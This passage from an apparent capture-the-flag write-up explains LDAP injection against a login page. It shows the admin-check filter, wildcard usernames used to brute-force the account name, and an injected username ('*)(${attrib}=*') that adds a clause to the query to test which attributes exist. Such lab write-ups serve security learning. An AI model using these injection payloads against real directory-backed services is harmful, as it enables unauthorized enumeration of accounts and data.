 The query run on `page.php` to check if the user is an admin is:

```

(&
  (&
    (objectClass=inetOrgPerson)
    (uid=$username2)
    (|
      (gidNumber=4)
      (gidNumber=0)
    )
  )
  (pager=*)
)

```

#### Username Brute

When I wanted to find out what the username was, I submitted queries that looked like `a*`. That would then issue an ldap query of:

```

(&
  (&
    (objectClass=inetOrgPerson)
    (uid=a*)
  )
  (pager=*)
)

```

This will return if there is a username that starts with `a` and is also of the class `inetOrgPerson`, and if there’s a `pager` value. That’s how I was able to brute force the only username in the system, ldapuser.

#### Attrib Test

When I wanted to do something more complicated, like see what attributes were present, I submitted the username of `*)(${attrib}=*`. That would produce the query, using `mail` as the example attribute:

```

(&
  (&
    (objectClass=inetOrgPerson)
    (uid=*)
    (mail=*)
  )
  (pager=*)
)

```
